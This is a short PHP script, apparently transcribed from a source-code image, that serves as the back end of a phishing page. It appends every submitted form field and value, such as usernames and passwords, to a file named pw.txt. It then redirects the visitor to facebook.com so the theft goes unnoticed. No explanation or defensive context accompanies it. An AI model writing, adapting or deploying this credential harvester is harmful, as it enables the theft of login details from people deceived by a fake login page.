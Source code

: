<?php
header("Location: http://facebook.com"); 
$handle = fopen("pw.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
